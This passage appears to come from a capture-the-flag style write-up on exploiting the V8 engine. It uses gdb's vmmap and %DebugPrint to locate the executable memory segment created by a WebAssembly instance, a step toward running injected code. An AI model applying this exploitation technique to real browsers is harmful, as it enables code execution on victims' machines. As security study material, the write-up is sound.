 Checking the fiddle page in the comment, I can see that this code is just the web assembly for:

```

int main() { 
  return 42;
}

```

#### Find Segment

I’ll need a way to find the start of the the segment. I’ll start by re-running the the new wasm lines added to `exploit.js`, and then I’ll drop to `gdb` and run the GEF command `vmmap` to list all the segments:

```

gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path                                 
0x00000bed00000000 0x00000bed0000c000 0x0000000000000000 rw-
0x00000bed0000c000 0x00000bed00040000 0x0000000000000000 ---
0x00000bed00040000 0x00000bed00041000 0x0000000000000000 rw-
0x00000bed00041000 0x00000bed00042000 0x0000000000000000 ---
0x00000bed00042000 0x00000bed00052000 0x0000000000000000 r-x
0x00000bed00052000 0x00000bed0007f000 0x0000000000000000 --- 
0x00000bed0007f000 0x00000bed00080000 0x0000000000000000 ---
0x00000bed00080000 0x00000bed00081000 0x0000000000000000 rw-
0x00000bed00081000 0x00000bed00082000 0x0000000000000000 ---
0x00000bed00082000 0x00000bed000bf000 0x0000000000000000 r-x
0x00000bed000bf000 0x00000bed08040000 0x0000000000000000 ---
0x00000bed08040000 0x00000bed0805d000 0x0000000000000000 r--
0x00000bed0805d000 0x00000bed08080000 0x0000000000000000 ---
0x00000bed08080000 0x00000bed0818d000 0x0000000000000000 rw-
0x00000bed0818d000 0x00000bed081c0000 0x0000000000000000 ---
0x00000bed081c0000 0x00000bed081c1000 0x0000000000000000 rw-
0x00000bed081c1000 0x00000bed08200000 0x0000000000000000 ---
0x00000bed08200000 0x00000bed08280000 0x0000000000000000 rw-
0x00000bed08280000 0x00000bee00000000 0x0000000000000000 ---
0x00002c3409915000 0x00002c3409916000 0x0000000000000000 rwx
0x000055eff7124000 0x000055eff740b000 0x0000000000000000 r-- /home/df/v8/out.gn/x64.release/d8      
0x000055eff740b000 0x000055eff800a000 0x00000000002e6000 r-x /home/df/v8/out.gn/x64.release/d8
...[snip]...

```

Right before the segments for `d8` itself there’s a rwx segment, in this case at 0x00002c3409915000.

Back in `db` (`c` from `gdb`), I can get the address of `wasm_instance` using `%DebugPrint`:

```

d8> %DebugPrint(wasm_instance)
0x0bed08210e65 <Instance map = 0xbed08244901>
[object WebAssembly.Instance]

```
